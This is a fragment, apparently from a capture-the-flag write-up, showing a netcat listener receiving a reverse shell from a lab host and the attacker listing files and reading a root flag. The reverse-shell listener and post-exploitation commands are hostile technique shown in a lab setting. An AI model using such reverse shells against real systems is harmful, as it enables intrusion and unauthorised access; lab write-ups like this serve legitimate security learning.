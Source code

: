 
```
❯ nc -lvnp 16666
Connection from 10.10.11.105:48202
pwd
/home/developer/myproject/public
cd
ls
boot.sh
pid
restart.sh
root.txtcat root.txt
b65c80d2e2ecae0c11cff2ba03ef44f3
```





